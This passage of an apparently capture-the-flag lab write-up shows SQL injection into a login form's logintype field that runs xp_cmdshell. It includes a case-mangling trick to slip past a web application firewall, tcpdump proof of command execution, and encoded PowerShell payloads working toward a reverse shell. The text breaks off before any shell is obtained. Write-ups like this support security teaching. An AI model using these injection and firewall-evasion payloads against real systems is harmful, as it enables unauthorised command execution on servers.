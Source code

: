 

    3;EXEC xp_cmdshell 'ping 10.10.14.6'-- -



It returns 500. I'll try again with double quotes instead of single. It
returns a 302 instantly, with no pings.

#### WAF Bypass

It's not trivial to see, but it's always a good idea to play with casing
on known risky commands like `xp_cmdshell`. That's the kind of thing
that a web application firewall would key on.

When I change the injection to
`3;EXEC xp_cmDshElL "ping 10.10.14.6"-- -`, it hangs for five seconds,
and there's ICMP at `tcpdump`:



    oxdf@hacky$ sudo tcpdump -ni tun0 icmp
    tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
    listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
    19:14:48.413133 IP 10.10.10.72 > 10.10.14.6: ICMP echo request, id 1, seq 13, length 40
    19:14:48.413227 IP 10.10.14.6 > 10.10.10.72: ICMP echo reply, id 1, seq 13, length 40
    19:14:49.424087 IP 10.10.10.72 > 10.10.14.6: ICMP echo request, id 1, seq 14, length 40
    19:14:49.424126 IP 10.10.14.6 > 10.10.10.72: ICMP echo reply, id 1, seq 14, length 40
    19:14:50.439731 IP 10.10.10.72 > 10.10.14.6: ICMP echo request, id 1, seq 15, length 40
    19:14:50.439775 IP 10.10.14.6 > 10.10.10.72: ICMP echo reply, id 1, seq 15, length 40
    19:14:51.455371 IP 10.10.10.72 > 10.10.14.6: ICMP echo request, id 1, seq 16, length 40
    19:14:51.455400 IP 10.10.14.6 > 10.10.10.72: ICMP echo reply, id 1, seq 16, length 40



### Reverse Shell

#### Finding PowerShell

I'll try the same `ping` command, but invoked with PowerShell (I've
reordered the parameters to make the changing one more obvious here):



    logintype=3%3bexecute+xp_cmDshElL+'powershell.exe+-c+ping+10.10.14.6'%3b&username=admin&password=admin&rememberme=ON&B1=Login



I don't see anything come back. This could be because PowerShell isn't
in the path, or PowerShell is being blocked. I can try calling it by
full path:



    logintype=3%3bexecute+xp_cmDshElL+'C:\Windows\system32\windowspowershell\v1.0\powershell.exe+-c+ping+10.10.14.6'%3b&username=admin&password=admin&rememberme=ON&B1=Login



Still nothing. I'll try the 32-bit version located at
`C:\Windows\SysWow64\WindowsPowerShell\v1.0\PowerShell.exe`:

